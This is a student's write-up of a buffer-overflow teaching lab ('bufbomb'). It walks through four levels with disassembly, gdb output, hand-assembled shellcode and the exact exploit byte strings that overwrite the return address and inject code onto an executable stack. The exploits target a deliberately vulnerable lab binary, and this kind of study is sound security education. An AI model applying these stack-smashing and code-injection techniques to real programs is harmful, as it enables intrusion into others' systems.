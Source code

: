 ```yaml
---
layout: post
author: Hang Hu
categories: c
tags: C 
cover: 
---
```


## Level 0, Candle

First make my cookie.  
```
joanna@JC:~/Downloads/lab3/bufbomb$ ./makecookie SA16225099
0x79fc9ee5
```
```
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```
Function `smoke` is at `0x08048e20`. Function `getbuf` uses address `ebp-0xc` as argument to call function `Gets`. And `Gets` puts String inputed by me at arg1, which is `ebp-0xc` in `getbuf`. In order to override return address in `getbuf`, I need to 12 bytes to fill ebp-0xc, ebp-0x8, ebp-0x4, 4 bytes to override saved ebp and 4 bytes to override return address. So sixteen `31` and `20 8e 04 08` is used as the exploit code. Note that little endian is used in intel.  
<strong>exploit0.txt</strong>
```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 20 8e 04 08
```
```
joanna@JC:~/Downloads/lab3/bufbomb$ cat exploit0.txt | ./sendstring | ./bufbomb -t SA16225099
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Smoke!: You called smoke()
NICE JOB!
Sent validation information to grading server
```
## Level 1, Sparkler

Function `fizz` is at `0x08048dc0`, which is used to override the return address. Use gdb and find `ebp+0x8` in `fizz` is at `0xffffbfa4`, while `ebp+0xc` in `getbuf` is at the same address. So write my cookie(`0x79fc9ee5`) to `ebp+0xc` will set cookie as arg1 for `fizz`. Therefore, after overriding return address, use 4 bytes to fill `ebp+8` and write `e5 9e fc 79` to `ebp+0xc`.  
<strong>exploit1.txt</strong>
```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 c0 8d 04 08 31 31 31 31 e5 9e fc 79
```
```
joanna@JC:~/Downloads/lab3/bufbomb$cat exploit1.txt | ./sendstring | ./bufbomb -t SA16225099
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Fizz!: You called fizz(0x79fc9ee5)
NICE JOB!
Sent validation information to grading server
```
## Level 2, Firecracker

C code for bang:
```
int global_value = 0;
void bang(int val)
{
entry_check(2); /* Make sure entered this function properly */
if (global_value == cookie) {
printf("Bang!: You set global_value to 0x%x\n", global_value);
validate(2);
} else
printf("Misfire: global_value = 0x%x\n", global_value);
exit(0);
}
```
Assembly code for bang:
```
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
 8048d7f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048d83:	c7 04 24 0b 9a 04 08 	movl   $0x8049a0b,(%esp)
 8048d8a:	e8 d5 f9 ff ff       	call   8048764 <printf@plt>
 8048d8f:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d96:	e8 09 fa ff ff       	call   80487a4 <exit@plt>
 8048d9b:	90                   	nop
 8048d9c:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048da4:	c7 04 24 70 98 04 08 	movl   $0x8049870,(%esp)
 8048dab:	e8 b4 f9 ff ff       	call   8048764 <printf@plt>
 8048db0:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048db7:	e8 24 fd ff ff       	call   8048ae0 <validate>
 8048dbc:	eb d1                	jmp    8048d8f <bang+0x2f>
 8048dbe:	89 f6                	mov    %esi,%esi
```
Function `bang` compares cookies with global_value, which corresponds to code at `8048d77`, and `0x804a1dc`, `0x804a1cc` are either cookie or global_value.
```
(gdb) x/wx 0x804a1cc
0x804a1cc <cookie>:	0x79fc9ee5
(gdb) x/d 0x804a1dc
0x804a1dc <global_value>:	0
```
So `global_value` is at `0x804a1dc`, write exploit code first.

1. Set global value
2. Push address of bang as return address
3. ret
```
;Move cookie(0x79fc9ee5) to *(0x804a1dc). 
;Note that $ means immediate value, while without $ means value at address `0x804a1dc`.
movl $0x79fc9ee5,%eax                                                       
movl %eax,0x804a1dc
;Push address of bang
push $0x8048d60
ret
```
>-m32 means gcc generates 32-bit machine code.
```
joanna@JC:~/Downloads/lab3/bufbomb$ gcc -m32 -c exploit2.s
joanna@JC:~/Downloads/lab3/bufbomb$ objdump -d exploit2.o

exploit2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 e5 9e fc 79       	mov    $0x79fc9ee5,%eax
   5:	a3 dc a1 04 08       	mov    %eax,0x804a1dc
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret    
```
Add address of the beginning of this exploit to the end, which is `ebp-0xc`: `0xffffbf98-0xc=0xffffbf8c`, making a 20 bytes machine code.  
<strong>exploit2.txt</strong>
```
b8 e5 9e fc 79 a3 dc a1 04 08 68 60 8d 04 08 c3 8c bf ff ff
```
Make the bufbomb's stack executable:
```
sudo apt install execstack
execstack -s bufbomb 
```
And then using gdb to run bufbomb will be ok!
```
joanna@JC:~/Downloads/lab3/bufbomb$ ./sendstring < exploit2.txt > exploit-raw.txt 
joanna@JC:~/Downloads/lab3/bufbomb$ gdb ./bufbomb 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
(gdb) r -t SA16225099 < exploit-raw.txt 
Starting program:/home/joanna/Downloads/lab3/bufbomb/bufbomb -t SA16225099 < exploit-raw.txt
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Bang!: You set global_value to 0x79fc9ee5
NICE JOB!
Sent validation information to grading server
```
## Level 3, Dynamite

Procedure:
`getbuf->Gets->back to getbuf->mov $1,%eax->return to exploit code->run exploit code->return to next line of where test call getbuf`
Exploit assembly:

1. return cookie instead of 1, which uses `mov $0x79fc9ee5,%eax`
2. push address which is the next line `getbuf` is called in function `test`, which is 0x804901e
3. ret  

exploit3.s:
```
mov $0x79fc9ee5,%eax
push $0x804901e
ret
```
```
joanna@JC:~/Downloads/lab3/bufbomb$ gcc -m32 -c exploit3.s 
joanna@JC:~/Downloads/lab3/bufbomb$ objdump -d exploit3.o

exploit3.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 e5 9e fc 79       	mov    $0x79fc9ee5,%eax
   5:	68 1e 90 04 08       	push   $0x804901e
   a:	c3                   	ret    
```
Break at `getbuf` and check the saved ebp for `getbuf` 
```
(gdb) x/x $ebp
0xffffbf98:	0xffffbfb8
```
Saves ebp is 0xffffbfb8.  
The final machine code consists of 11 bytes exploit code, 1 byte padding(`31` is used here), 4 bytes saved ebp of getbuf, and 4 bytes return address which returns to exploit code. The beginning of exploit code lies in where the inputed string is stored, which is `ebp-0xc` in `getbuf`.  
```
joanna@JC:~/Downloads/lab3/bufbomb$ cat exploit3.txt
b8 e5 9e fc 79 68 1e 90 04 08 c3 31 b8 bf ff ff 8c bf ff ff
```
I have already made bufbomb's stack excutable, so run it with gdb directly.
```
joanna@JC:~/Downloads/lab3/bufbomb$ ./sendstring < exploit3.txt > exploit-raw.txt 
joanna@JC:~/Downloads/lab3/bufbomb$ gdb ./bufbomb
Starting program:/home/joanna/Downloads/lab3/bufbomb/bufbomb -t SA16225099 < exploit-raw.txt
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Boom!: getbuf returned 0x79fc9ee5
NICE JOB!
Sent validation information to grading server
```
